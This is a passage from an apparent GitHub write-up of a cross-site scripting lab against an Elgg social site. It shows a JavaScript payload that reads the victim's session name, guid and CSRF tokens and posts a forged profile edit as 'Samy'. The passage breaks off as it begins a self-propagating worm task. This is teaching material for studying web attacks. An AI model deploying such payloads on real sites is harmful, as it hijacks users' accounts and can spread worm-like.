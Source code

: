   <span class="pl-kos">}</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script type=&quot;text/javascript&quot;>
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = &quot;&amp;name=&quot; + elgg.session.user.name;
    var guid = &quot;&amp;guid=&quot; + elgg.session.user.guid;
    var ts = &quot;&amp;__elgg_ts=&quot; + elgg.security.token.__elgg_ts;
    var token = &quot;&amp;__elgg_token=&quot; + elgg.security.token.__elgg_token;
    var description =
      &quot;&amp;description=<p>modified by Samy<p>&quot; + &quot;&amp;accesslevel[description]=2&quot;;
    //Construct the content of your url.
    var sendurl = &quot;http://www.xsslabelgg.com/action/profile/edit&quot;;
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open(&quot;POST&quot;, sendurl, true);
      Ajax.setRequestHeader(&quot;Host&quot;, &quot;www.xsslabelgg.com&quot;);
      Ajax.setRequestHeader(
        &quot;Content-Type&quot;,
        &quot;application/x-www-form-urlencoded&quot;
      );
      Ajax.send(content);
    }
  };
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<h1 dir="auto"><a id="user-content-task-6" class="anchor" aria-hidden="true" href="#task-6"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Task 6</h1>
<p dir="auto">To make the code in <a href="#task-5">Task 5</a> self-propogating:</p>